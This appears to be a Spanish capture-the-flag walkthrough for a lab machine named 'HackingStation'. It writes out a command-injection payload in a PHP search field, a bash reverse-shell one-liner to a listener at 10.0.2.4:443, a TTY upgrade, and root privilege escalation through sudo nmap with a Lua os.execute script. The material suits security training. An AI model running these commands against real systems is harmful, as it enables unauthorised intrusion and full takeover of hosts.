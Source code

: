 Machine:
	HackingStation:
	netdiscover -r 10.0.2.0/24
	nmap first
	nmap services
	Solo puerto 80, miramos la pág:
		CVE apache 2.4.57 -> CVE-2023-31122
		Dejamos ejecutando un dirb sobre el servicio, mientras examinamos a mano la web
		Primer intento de xss con <script>alert("Hacked")</script>, no nos devuelve nada pero obtenemos un archivo en php que ejecuta un comando
		Vemos el archivo php y parece ser una base de datos de exploit-db, si buscamos por ejemplo la versión de apache, nos aparecen diferentes entradas
		Dentro de las entradas, aparece un "Apache + php - remote code execution + scanner"
			https://www.exploit-db.com/exploits/29316
		Al saber que es php y no ver un tratamiento en principio de la entrada, vamos a probar a ejecutar un ls
			apache 2.4.57;exec("ls")
			Sin exito
		Vamos al dirbuster y vemos que hay una página a la que podemos acceder:
			10.0.2.6/javascript/jquery/jquery
		Seguimos probando por la parte del input, esta vez simplemente con bash
			apache 2.4.57;whoami
			Nos responde e server devolviendonos el usuario con el que se ejecuta esto "hacker". Hecho esto vamos a mandarnos una reverse shell
				nc -nlvp 443
				Ejecutamos en el botón o con un curl la reverse shell en bash:
					bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'
			Estamkos dentro, vamos a hacer una conversion de tty
				script /dev/null -c bash
				ctrl+z
				stty raw -echo;fg
				reset xterm
				export TERM=xterm
				export SHELL=bash
		Escalamos privilegios:
			id (Poca información)
			sudo -l
				Vemos que tenemos un binario "nmap" en /usr/bin/nmap el que podemos ejecutar usar con sudo
				sudo /usr/bin/nmap 127.0.0.1
				Vemos que tiene ssh activado, pero en nuestro scan no nos aparecía. Esto es debido a que estará de forma interna. El uso
				es el usual de nmap. 
				Sabemos que con nmap, podemos ejecutar scripts, vamos a intentar crear de alguna manera un script que nos devuelva una shell como root.
				Para eso buscamos y encontramos GTFO bins, dentro de ella podemos encontrar una entrada a nmap. Vemos que con una version de nmap inferior
				a la que tiene el sistema, podríamos haber iniciado una shell interactiva con: nmap --interactive. Pero nuestra version supera a las vulnerables
				En vez de usar una sh como nos indica en el GTFObins, vamos a intentar que nos devuelva una bash:
					BASH=$(mktemp)
					echo 'os.execute("/bin/bash")' > $BASH
					sudo nmap --script=$BASH
				Tenemos acceso como root. Aunque no aparezca cuando escribimos, el comando se ejecuta. Para hacerlo más comodo podemos enviarnos
				una reverse shell como root, o activar ssh y establecer por ahí una conexión (vemos como de verdad tiene ssh abierto pero solo en modo
				escucha). De todas formas en el home de root, tenemos su flag
